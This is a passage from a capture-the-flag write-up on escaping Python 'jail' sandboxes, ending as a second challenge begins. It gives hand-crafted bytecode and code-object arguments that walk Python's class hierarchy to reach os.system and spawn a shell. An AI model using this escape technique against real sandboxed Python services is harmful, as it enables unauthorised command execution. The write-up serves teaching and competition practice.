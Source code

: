 We have to get it to length 570! we can set the path to an empty string, remove any spaces... There is one extra step! Optimizing the bytecode! As you may notice, the **None** value is saved & used by the bytecode however it's not important here, we can get rid of it. To view opcodes of the function we can use `dis` module to view opcodes, disassemble a code object to get it's opcodes... Or we can use this:

```python
from opcode import opmap as OPCODE_MAPPING

inv = {y: x for x, y in OPCODE_MAPPING.items()}
op = b'' # bytecode
print('\n'.join([str(i) + "- " + inv[op[i]] + " " + str(op[i+1]) for i in range(0, len(op)-1, 2) if inv.get(op[i])]))
```

I won't be going into the details for this however, you can check the list of opcodes [here](https://docs.python.org/3.9/library/dis.html). The shortest bytecode & arguments I reached are the following:

```python
opcode = "g\\x00j\\x00j\\x01\\xa0\\x02\\xa1\\x00}\\x00" + \
         "|\\x00d\\x01\\x19\\x00|\\x00d\\x02\\x19\\x00g\\x02t\\x03_\\x04" + \
         "i\\x00t\\x03_\\x06" + \
         "|\\x00d\\x03\\x19\\x00\\xa0\\x05|\\x00d\\x04\\x19\\x00\\xa0\\x02\\xa1\\x00d\\x00\\x19\\x00d\\x05g\\x01f\\x02\\xa1\\x01g\\x01t\\x03_\\x07" + \
         "d\\x06g\\x01t\\x03_\\x08" + \
         "d\\x00d\\x00l\\t" + \
         "\\xa0\\n" + \
         "d\\x07" + \
         "\\xa1\\x01"

args = "(1,0,0,6,4,0,b'%s',(0,104,121,122,118,'.py','/usr/lib/python3.10','sh'),('__class__','__base__','__subclasses__','sys','meta_path','path_hook','path_importer_cache','path_hooks','path','os','system'), ('x',),'','',35,b'\\x0c\\x01\\x12\\x01\\x08\\x01\\x10\\x01\\x10\\x02\\x06\\x01\\x08\\x01\\x08\\x01\\x08\\x01\\x0e\\x01',(),())" % (opcode,)
```

At this point, it's done! You can import os & pop a shell!

### PyCryptoJail
This one was a lil mix between Crypto & a Pyjail, basically there are 2 steps for this:
1. Figure out the payload for the jail
2. Calculate the needed `p` & `x` to get your payload recovered.

For the Crypto part, credits goes to [SSONEDE](https://www.linkedin.com/in/yassine-belarbi-853303208/).

We'll start with the jail part. Now, usually people look only at the `exec` or `eval` functions & ignore the rest of the code, which is a waste of some good opportunities. In the challenge file, this is the execution part of the jail (After blacklist/whitelist checks):

```python
exec(c)
print(c)
print("Is that everything?!")
```
